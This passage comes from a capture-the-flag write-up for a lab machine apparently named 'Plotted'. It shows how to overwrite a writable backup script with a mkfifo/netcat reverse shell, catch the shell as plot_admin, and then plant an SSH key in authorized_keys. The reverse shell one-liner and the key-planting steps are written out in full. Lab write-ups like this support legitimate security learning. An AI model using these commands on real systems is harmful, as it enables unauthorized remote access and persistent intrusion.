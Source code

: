 First let's remove this file, then create a file with the same name with a reverse shell inside, mark it as executable, and finally opne a listener (`rlwrap nc -lvnp 4242`) and wait.

Here's the reverse shell:

~~~bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR IP> 4242 >/tmp/f
~~~

~~~
www-data@plotted:/var/www/scripts$ rm backup.sh
rm: remove write-protected regular file 'backup.sh'? y
www-data@plotted:/var/www/scripts$ echo "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.**.** 4242 >/tmp/f" > backup.sh
www-data@plotted:/var/www/scripts$ chmod +x backup.sh
~~~

After a little while, you should receive a shell as user `plot_admin` on your listener:

~~~
└─$ rlwrap nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.248.15] 58888
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
~~~

### Connecting via SSH

Now that we are `plot_admin`, let's prepare everything to connect to the machine via ssh. First we need to make a directory named `.ssh` and then add our public key in `authorized_keys` inside this directory.

If you don't have an SSH key, you can create one using `ssh-keygen`, and copy the content of the file with `.pub` extention (which is called the public key) inside the `authorized_keys` and use your private key to connect to the machine.

Let's add our public key now:

~~~
$ mkdir .ssh
$ echo "<PUT YOUR PUBLIC KEY HERE>" > .ssh/authorized_keys
~~~

Now we can use our private key to connect to the machine via ssh as user `plot_admin`:

~~~
└─$ ssh -i ~/.ssh/id_rsa plot_admin@$IP           

[SNIP]

plot_admin@plotted:~$ id
uid=1001(plot_admin) gid=1001(plot_admin) groups=1001(plot_admin)
~~~

## User Flag
